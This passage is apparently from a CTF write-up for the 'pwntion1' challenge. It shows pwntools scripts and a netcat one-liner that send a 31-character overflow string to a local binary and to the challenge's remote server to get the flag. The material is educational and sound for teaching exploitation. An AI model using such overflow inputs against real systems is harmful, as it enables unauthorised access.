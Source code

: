 ### 3. Sending the input using a python script
Using **pwn-tools** as described in the Python tutorial, we may write a simple
script and run it using Python. Here is the script:

```Python
from pwn import *

r = process("./pwntion1_public")

r.recvuntil("Student:\n")
r.sendline("A" * 31)

r.interactive()
```

## Send the exploit script to remote connection
As in the first section, where we checked out what was going on at the remote
server, we use the **netcat** command. This time we add the solve scripts from
the previous sections.

### 1. Manually
Do exactly the same as locally, and get the real flag.

### 2. Redirecting 
Use the same script, but change from binary to netcat.

```
$ python -c 'print("A" * 31)' | nc pwntion1.tghack.no 1061
```

### 3. Python script
It is useful to make a script that may run the input against both the local 
script and on the remote server. The following script does so by setting a 
debug flag to `True` if running locally. Now it is set to `False` in order 
to send to the remote server.

```
from pwn import *

debug = False
if debug == True:
    r = process("./pwntion1_public")
else:
    r = remote("pwntion1.tghack.no", 1061)

r.recvuntil("Student:\n")
r.sendline("A" * 31)

r.interactive()
```

Aww yeah, so many ways to get the flag! :O I prefer and recommend using the 
last two options as they are the easiest to modify and test again.
